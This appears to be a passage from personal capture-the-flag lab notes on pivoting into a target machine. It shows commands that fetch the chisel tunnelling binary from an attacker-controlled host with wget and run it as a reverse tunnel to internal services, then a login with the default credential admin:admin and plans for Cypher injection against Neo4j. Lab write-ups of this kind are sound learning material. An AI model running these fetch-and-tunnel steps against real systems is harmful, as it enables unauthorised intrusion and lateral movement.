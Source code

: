 We now have access to ports 3000, 8001, 7687, and 7474.



cp /opt/my-resources/chisel/linux_amd64/chisel_linux_amd64 .
python3 -m http.server 80

chisel server -p 8080 --socks5 --reverse


cd /tmp
wget http://10.10.14.10/chisel_linux_amd64 -O chisel
chmod +x ./chisel
./chisel client 10.10.14.10:8080 R:3000:localhost:3000 R:8001:localhost:8001 R:7687:localhost:7687 R:7474:localhost:7474

http://localhost:3000/

![[Pasted image 20230901205401.png]]

http://localhost:8001/

redirect to a login page :

http://localhost:8001/login

![[Pasted image 20230901205458.png]]

We can guess a gredential to login :

admin:admin

![[Pasted image 20230901212859.png]]

![[Pasted image 20230901213326.png]]

http://localhost:7474/

redirect to :

http://localhost:7474/browser/

![[Pasted image 20230901205533.png]]

So the application on port port 8001 is using the Neo4j database on port 7687. This database have a web front on port 7474.

On Hacktricks, we have a possible "Cypher Injection (neo4j)" : https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j

Since the web application is using the database, there could be an injection point.

The side menu (buger button) offer only 3 pages :

![[Pasted image 20230901220812.png]]

The Employee page is a form :

![[Pasted image 20230901220850.png]]
